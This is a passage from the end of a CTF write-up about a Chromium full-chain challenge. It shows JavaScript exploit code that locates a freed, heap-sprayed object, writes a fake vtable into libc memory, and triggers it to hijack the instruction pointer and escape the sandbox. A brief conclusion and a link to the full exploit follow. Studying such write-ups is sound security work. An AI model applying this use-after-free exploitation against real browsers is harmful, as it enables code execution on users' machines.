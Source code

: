 ```js


```

Final touch of sandbox exploit is iterating over the freed objects and finding the one that has marker in its inlined double/int variable. 

When such object is found, multiple `push` calls are made to write fake vtable into libc bss memory. Finally, `getTotalSize()` is called on the freed object which results in it fetching our fake vtable and giving us RIP control, yay!

```js
top:
for(var i = 0; i < spray_inst.length-1; i++){
        var tmp = (await spray_inst[i]["inst"].getDouble()).value.f2i()
        //console.log("i->"+ i + " " + tmp.toString(16));
        if(BigInt(tmp) == sprayed_val && (used_indexes.indexOf(i) == -1)){
                used_indexes.push(i);
                console.log("siced");
                (await spray_inst[i]["inst"].push(setcontext)); // push writes to bss
                (await spray_inst[i]["inst"].push(0x2a67616c662f2e)); // "./flag*"
                (await spray_inst[i]["inst"].getTotalSize());
                break top;
        }
}
```

Sandbox - Escaped.


### Conclusion

I expected some classic JIT bugs, so I was really surprised that i had to do something different in the browser. I think it was a great opportunity to learn `PartitionAlloc` and I hope for more CTFs like this one.

The full exploit code is located [here](https://github.com/perfectblue/ctf-writeups/blob/master/2020/0CTF-quals/Chromium%20Fullchain/pwning.html)
